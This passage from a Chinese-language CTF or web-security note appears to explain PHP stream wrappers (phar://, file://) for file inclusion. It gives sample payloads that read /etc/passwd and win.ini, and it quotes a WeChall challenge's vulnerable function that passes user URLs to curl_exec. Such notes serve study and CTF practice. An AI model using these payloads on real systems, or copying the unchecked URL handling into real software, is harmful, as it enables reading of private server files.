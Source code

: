 #### 2.1.2. 特性 Allows Reading

*   影响函数

```
fopen()
file_get_contents()
imagecreatefromgif() 
```

### 2.2. phar://

与zip协议区别就是 phar 是用/来分隔而不是 #

```
?file=phar://php.zip/php.jpg 
```

### 2.3. file://

访问本地文件系统

[http://www.wechall.net/challenge/crappyshare/index.php](http://www.wechall.net/challenge/crappyshare/index.php)

[http://www.wechall.net/challenge/crappyshare/crappyshare.php](http://www.wechall.net/challenge/crappyshare/crappyshare.php)

*   样例

```
?file=file:///etc/passwd
?file=file://c:/windows/win.ini 
```

*   影响函数

```
file_get_contents() 
```

*   实例

在这题CTF中，攻击的关键点在于：curl\_exec($ch)

```
function upload_please_by_url($url)
{
　　if (1 === preg_match('#^[a-z]{3,5}://#', $url)) 
　　{
　　　　$ch = curl_init($url);
　　　　curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
　　　　curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
　　　　curl_setopt($ch, CURLOPT_FAILONERROR, true);
　　　　if (false === ($file_data = curl_exec($ch)))
　　　　{
　　　　　　htmlDisplayError('cURL failed.');
　　　　}
　　　　else
　　　　{
　　　　　　
　　　　　　upload_please_thx($file_data);
　　　　}
　　}
　　else
　　{
　　　　htmlDisplayError('Your URL looks errorneous.');
　　}
} 
```
